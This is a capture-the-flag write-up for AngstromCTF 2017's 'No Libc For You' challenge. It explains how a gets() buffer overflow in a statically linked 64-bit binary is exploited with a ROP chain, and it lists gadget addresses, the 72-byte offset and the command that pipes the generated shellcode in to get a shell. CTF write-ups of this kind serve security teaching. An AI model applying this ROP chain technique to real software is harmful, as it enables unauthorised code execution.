 # AngstromCTF 2017 - Binary 150 - No Libc For You

## Message
Even ASLR and NX can't seem to stop you from exploiting all these buffer overflows. Rather than remove the buffer overflows, we decided to use static linking so you can't access libc anymore! Can you get the flag with no system() to help you out? Go ahead and give it a try on the shell server.

## Writeup
We are given a statically linked, 64-bit ELF binary and source-code. Looking at the source, it is a straight forward buffer-overflow in gets(). The problem is that we don't have system() or the string /bin/sh in our binary, so we have to use other ROP techniques to exploit the binary.

### Solution
We are able to reach right before rip with 72 bytes.  Lucky we have access to ROP gadgets in __libc_csu_init(). We are going to have everything that we need for a complete ROP chain.

Write-what-where gadgets
0x4734e1 mov qword ptr [rsi], rax ; ret
0x4015e7 pop rsi ; ret
0x477a36 pop rax ; pop rdx ; pop rbx ; ret
0x42550f xor rax, rax ; ret

Init syscall number gadgets
0x42550f xor rax, rax ; ret
0x465b90 add rax, 1 ; ret
0x465b91 add eax, 1 ; ret

Init syscall argument gadgets
0x4014c6 pop rdi ; ret
0x4015e7 pop rsi ; ret
0x441d06 pop rdx ; ret

Syscall gadget
0x4666d5 syscall ; ret

Using these gadgets I generated my payload via ![exploit.py](exploit.py) which writes the shellcode to the file
![shellcode](shellcode)

Then the exploit is run.

(cat shellcode ; cat) | ./nolibc4u

We get our shell!!!

 
